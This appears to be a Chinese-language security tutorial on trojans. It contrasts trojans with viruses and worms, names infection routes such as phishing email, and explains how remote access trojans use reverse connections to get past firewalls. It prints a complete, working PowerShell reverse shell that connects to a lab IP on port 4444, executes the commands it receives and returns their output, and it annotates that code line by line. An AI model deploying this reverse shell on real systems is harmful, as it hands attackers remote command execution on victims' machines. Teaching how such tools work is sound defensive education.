 木马是一种隐藏在看似合法软件中的恶意软件，它在用户不知情的情况下执行未授权的活动。这种名称来源于古希腊的特洛伊木马故事，象征着通过欺骗手段渗透和破坏。

与病毒和蠕虫不同

- 木马将自己伪装成合法的软件或文件, 欺骗用户主动执行它
- 病毒能够自我复制并插入其他程序中, 需要宿主文件来复制和传播
- 蠕虫不需要宿主文件, 可以自我复制和传播, 它们的主要目的是尽可能地复制和传播自身

---

### 木马感染的过程

木马通常通过伪装成合法软件或附件来诱骗用户下载和执行。一旦激活，它们可以执行各种恶意活动，如窃取数据、监控用户活动或创建后门

> 钓鱼邮件, WallpaperEngine投毒

---

### 木马示例

远程访问木马(RAT - Remote Access Trojan) 是一种允许攻击者远程控制受感染计算机的恶意软件

传统的防火墙设计通常认为出站连接(由内部网络向外部网络发起的连接)是安全的, 而外部对内部网络的直接访问可能是危险的; RAT 通常使用反向连接使得受感染主机主动连接攻击者服务器来绕过防火墙在这方面的防护

可以使用 PowerShell 实现

```powershell
# 创建一个 TCP 客户端对象, 尝试连接到 192.168.159.1 的 4444 端口
$client = New-Object System.Net.Sockets.TCPClient("192.168.159.1", 4444);
# 从 TCP 客户端对象中获取流对象, 用于接收和发送数据
$stream = $client.GetStream();
# 创建一个64KB的字节数组, 用于接收数据(每个字节都是0)
[byte[]]$bytes = 0..65535 | % { 0 };

# 持续从网络流中读取数据
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    # 将字节数组转换为字符串
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    # 执行字符串中的命令, 并将结果转换为字符串
    $sendback = (iex $data 2>&1 | Out-String );
    # 将执行结果和一个提示符附加到输出中
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    # 将输出字符串转换为字节
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    # 将字节写入网络流中
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    # 刷新网络流
    $stream.Flush();
}
# 在完成通信后关闭TCP连接
$client.Close();

```
- `[byte[]]$bytes = 0..65535 | % { 0 }`
  - `0..65535`: 创建了一个包含从0到65535的整数序列
  - `% { 0 }`: PowerShell中的ForEach-Object命令的简短写法  
    对序列中的每个元素执行括号内的操作(返回0)
- `$sendback = (iex $data 2>&1 | Out-String )`
  - `2>&1`: 在PowerShell中，2 表示标准错误流(stderr) ，1 表示标准输出流(stdout)   
    `2>&1` 表示将标准错误流重定向到标准输出流, 这意味着命令的输出和错误都会被捕获并重定向为字符串到 `$sendback`
- `$stream.Write($sendbyte,0,$sendbyte.Length)`
  - `Write` 是 `System.Net.Sockets.NetworkStream` 对象的一个方法，用于将数据写入网络流;   
    这个方法需要三个参数：`要写入的字节数据`, `字节数组中开始写入数据的位置`, `要写入的字节数量`
